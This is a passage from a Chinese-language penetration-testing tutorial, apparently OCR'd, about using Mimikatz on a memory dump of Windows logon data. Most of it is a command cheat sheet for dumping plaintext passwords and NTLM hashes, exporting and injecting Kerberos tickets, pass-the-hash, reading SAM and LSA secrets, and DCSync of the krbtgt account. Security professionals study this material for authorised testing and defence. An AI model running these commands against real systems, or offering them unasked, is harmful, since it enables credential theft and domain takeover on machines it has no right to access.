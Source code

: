 
正常我们是打不开 passwd.dmp 这个文件的，要是以记事本打开也都是乱码。这时，我们就要用到另一个小工具 Mimikatz 进行对 passwd.dmp 进行读取

### ②Mimikatz

Mimikatz 是法国⼈ benjamin 开发的⼀款功能强⼤的轻量级调试⼯具，本意是⽤来个⼈测试，但由于其功能强⼤，能够直接读取 WindowsXP-2012 等操作系统的明⽂密码⽽闻名于渗透测试，可以说是渗透必备⼯具。

#### 1、相关参数

因为 mimikatz 参数较多，这⾥只介绍常⽤的参数。

```bash
mimikatz # ::    显示帮助指令
mimikatz # cls    清空
mimikatz # log      记录所得到的信息
mimikatz # hostname         查看主机名
```

-   **privilege 模块**

(需要管理员权限的命令行窗口才可操作)

```bash
mimikatz # privilege::debug      提升 mimikatz 权限（通过 mimkatz 自带的漏洞脚本对当前设备进行攻击）
```

-   **sekurlsa 模块**

```bash
1、提取当前系统中已登录用户的密码（该方法需要先提升 mimikatz 权限）
mimikatz # sekurlsa::logonpasswords     获取所有账户密码（比 procdump 的使用更简单）
2、抓取用户 NTLM 哈希 (读取内存的 HASH-列出 LM 和 NTML 凭证)
mimikatz # sekurlsa::msv
3、加载 dmp 文件，并导出其中的明文密码
mimikatz # sekurlsa::minidump passwd.dmp    切换环境
mimikatz # sekurlsa::logonpasswords full    列出所有可用的凭据
4、导出 lsass.exe 进程中所有的票据
mimikatz # sekurlsa::tickets /export
5、列出 kerberos 凭证
mimikatz # sekurlsa::kerberos    获取 kerberos 认证信息 (账户密码等)-域内
6、pass-the-hash 哈希传递
mimikatz # sekurlsa::pth
```

-   **lsadump 模块**

```bash
mimikatz # lsadump::sam     查看 sam 文件内容获取用户名和 NTLM hash
mimikatz # lsadump::secrets      获取当前用户密码
mimikatz # lsadump::dcsync /user:krbtgt     获取域控上 krbtgt ⽤户信息
```

-   **kerberos 模块**

```bash
1、列出系统中的票据
mimikatz # kerberos::list       列出票据
mimikatz # kerberos::tgt        列出票据        
2、清除系统中的票据
mimikatz # kerberos::purge      清除票据
3、导入票据到系统中
mimikatz # kerberos::ptc 票据路径
```
